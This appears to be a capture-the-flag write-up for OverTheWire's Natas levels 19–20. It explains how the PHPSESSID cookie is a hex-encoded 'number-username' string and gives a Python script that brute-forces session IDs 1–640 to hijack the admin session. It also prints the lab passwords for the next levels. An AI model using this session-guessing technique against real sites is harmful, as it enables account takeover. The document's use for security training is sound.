 We do not really need to include the `username` and `password` in the `GET` request that we sent, as the `if` condition does not really care if the credentials are there, only when it reaches the `else` branch that it starts to do some checks on the parameters passed into the `GET` request.

natas19: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`

# Natas 19

One mental note: When it comes to PHP cookies that has some numbers and letters in it, going to `Cyberchef` and check if the content is encoded is a good practice. 

We are given that the code is the same, but this time the session IDs are not "sequential". What does this even mean??? - the way to generate the session IDs from the old code is not relying on any "sequential" order, indeed they are generated randomly in the range of `1-640`. 

After typing in some dummy data for username and password, inspecting the `PHPSESSID` we see some hex strings like `3530362d6168646864`, which in my case for the username of `ahdhd`, after decoding, it gives `506-ahdhd`. Repeating this process for another username, we can see that the structure of the session ID before encoding is `<NUMBER IN RANGE 1 - 640>-<USERNAME>`. Hence, the correct `PHPSESSID` for the `admin`, before hex encoded, should be something of the form `<NUMBER IN RANGE 1 - 640>-admin`.

The code for all of the aforementioned operations: 

```python
import requests

target = 'http://natas19.natas.labs.overthewire.org'
auth = ('natas19','8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')
params = dict(username='IceWizard4902', password='ISuck@CTF') # not needed
cookies = dict()

for i in range(1, 641):
    print("Trying with PHPID: ", i)
    PHPSESSID = (str(i) + "-admin").encode('utf-8').hex()
    cookies = dict(PHPSESSID=PHPSESSID)
    r = requests.get(target, auth = auth, cookies = cookies)
    if "You are an admin" in r.text:
        print(r.text)
        break 
```

The hex encoding is done by a few Google searches, in particular one can do `"abc".encode('utf-8').hex()` to return the hex representation of the string `"abc"`. Otherwise, the idea is the same as the previous level - we brute-force every possible valid `PHPSESSID` until we received the password for the next level message.

natas20: `guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH`

# Natas 20

to be filled in later :)